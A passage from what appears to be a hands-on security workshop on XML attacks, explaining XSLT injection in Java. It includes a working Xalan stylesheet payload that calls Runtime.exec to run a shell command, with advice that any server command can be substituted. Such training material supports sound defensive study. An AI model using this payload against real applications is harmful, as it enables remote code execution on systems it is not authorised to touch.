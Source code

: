 Writing files in a temporary directory can help escalate another vulnerability that involves a path traversal (such as local file include, template injection, XSLT RCE, deserialization, etc).

### Complement: XSLT RCE

Positive
: This segment is required for the next exercise. This vector is not considered an XXE as it focus on a different feature of XML.

Extensible Stylesheet Language Transformations (or XSLT) is a text format that describes the transformation applied to XML documents. The official specification provides basic transformation. Languages such as Java and .NET have introduced extension to allow the invocation of method from the stylesheet. The Java implementation is more prone to vulnerability being enabled by default. It has the capability to access all class in the classpath.

If you are seeing a feature that allows you to configure an XSLT file in a Java application, remote code execution might be possible.

```xml
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:date="http://xml.apache.org/xalan/java/java.util.Date"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
xmlns:str="http://xml.apache.org/xalan/java/java.lang.String"
exclude-result-prefixes="date">
    <xsl:output method="text"/>
    <xsl:template match="/">
    <xsl:variable name="cmd"><![CDATA[touch /tmp/test1234]]></xsl:variable>
    <xsl:variable name="rtObj" select="rt:getRuntime()"/>
    <xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
    <xsl:text>Process: </xsl:text><xsl:value-of select="$process"/>
    </xsl:template>
</xsl:stylesheet>
```

In the root node, classes (`java.lang.Runtime` and `java/java.lang.String`) are imported for future reference. To customize the previous payload, you need to edit the assignment `<xsl:variable name="cmd"><![CDATA[touch /tmp/test1234]]></xsl:variable>`. The `touch` command can be replaced with any command available on the server.










## LAB 4: Jar protocol
Duration: 00:15:00
